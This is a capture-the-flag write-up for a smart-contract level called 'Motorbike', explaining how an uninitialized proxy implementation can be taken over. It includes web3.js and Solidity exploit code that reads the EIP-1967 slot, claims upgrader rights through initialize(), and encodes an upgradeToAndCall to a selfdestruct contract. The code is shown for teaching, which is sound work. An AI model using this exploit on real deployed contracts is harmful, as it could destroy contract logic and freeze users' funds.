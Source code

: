 ## 25. Motorbike

Using proxies is a pretty common pattern in recent times, but this can lead to very disasterous consequences if one does not understand how to safely engage them. This level is an example of what happened witht the parity wallet.
Here we want to destroy the Motorbike but within the motorbike contract, there isn't any `selfdestruct` calls. So innstead of attacking the Motorbike contract, we can instead attack the engine contract!
Motorbike relies on the engine contract for its logic so if we can destroy the engine contract, the Motorbike is automatically rendered useless.

We interact directly with the engine contract and gain ownership of it. Once we make ourself the upgrader, we can easily upgrade the engine logic to a malicious contract and call `selfdestruct`.

```
// We get the engine contract address
implAddr = await web3.eth.getStorageAt(instance, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')

implAddr = '0x' + implAddr.slice(26)

// Now we can call `initialize()` to become the upgrader
data = web3.eth.abi.encodeFunctionSignature("initialize()")
await web3.eth.sendTransaction({
    from: player,
    to: implAddr,
    data: data
})

// We can check to see if we are the upgrader
// data = web3.eth.abi.encodeFunctionSignature("upgrader()")
// await web3.eth.call({
//     to: implAddr,
//     data: data
//     })

// Now we can hop on remix to create the Destro yEngine contract
pragma solidity ^0.8.0;

contract DestroyEngine {
    function explode() public {
        selfdestruct(payable(0));
    }
}

DesEngAddr = "<we insert the destroy engine address here>"

// create the payload to be called
data = web3.eth.abi.encodeFunctionSignature("explode()")

upgradeToAndCallData = web3.eth.abi.encodeFunctionCall({
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [{
        type: 'address',
        name: 'newImplementation'
    }, {
        type: 'bytes',
        name: 'data'
    }
]
}, [DesEngAddr, data])


```